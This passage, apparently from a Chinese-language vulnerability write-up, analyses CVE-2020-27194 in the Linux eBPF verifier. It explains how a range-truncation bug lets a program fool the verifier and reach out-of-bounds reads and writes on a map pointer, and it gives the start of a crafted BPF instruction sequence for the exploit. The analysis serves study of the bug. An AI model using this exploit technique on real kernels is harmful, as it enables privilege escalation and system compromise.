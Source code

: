 > 19：将r5赋值为r6，得到r6为invP1 ，说明检查模块认为r6是常数1，而实际此时r6为2
>
> 20：对r6进行右移操作，此时检查模块认为r6得到的结果为invP0（常数0），而实际此时r6为1

**具体调试过程如下**：

![3-CVE-2020-27194-Debug](\images\posts\CVE-2020-27194\3-CVE-2020-27194-Debug.png)

一个常数变量x，如果它64位无符号数的取值范围是 `1<=x<=0x100000001`，`dst_reg->umin_value` 的值为1， `dst_reg->umax_value` 的值为0x600000001，而在赋值 `dst_reg->s32_max_value` 的过程中发生了截断（64位的值赋值到32位的有符号整数），导致 `dst_reg->s32_max_value` 的值为1，此时目标寄存器的32位范围为（1，1），因此bpf的验证模块认为这是常数1。

当我们传入2时，对其进行右移操作，验证模块认为是1>>1=0，而实际是2 >>1 = 1，所以可以对其进行乘法操作构造成任意数，因为在验证模块看来只是0乘以任意数，结果都是0，从而绕过检查，可以对map指针进行任意加减，造成越界读写。

所以bpf程序构造如下：

```c
struct bpf_insn prog[] = {
        BPF_LD_MAP_FD(BPF_REG_9, mapfd),
            BPF_MAP_GET(0, BPF_REG_5),  // r5 = input()
        BPF_LD_IMM64(BPF_REG_6, 0x600000002), //r6=0x600000002
        BPF_JMP_REG(BPF_JLT, BPF_REG_5, BPF_REG_6, 1), //if r5 < r6 ;  jmp 1
        BPF_EXIT_INSN(),
        BPF_JMP_IMM(BPF_JGT, BPF_REG_5, 0, 1),  //if r5 > 0 ; jmp 1 ; 
        BPF_EXIT_INSN(),
        // now  1 <= r5 <= 0x600000001
        BPF_ALU64_IMM(BPF_OR, BPF_REG_5, 0),   //r5 |=0;  verify: 1 <= r5 <=1 , r5=1 
        BPF_MOV_REG(BPF_REG_6, BPF_REG_5),     //r6 =r5
        BPF_ALU64_IMM(BPF_RSH, BPF_REG_6, 1),  //r6 >>1    verify:0   fact: we can let r5=2  then r6=1 
        ......
}
```
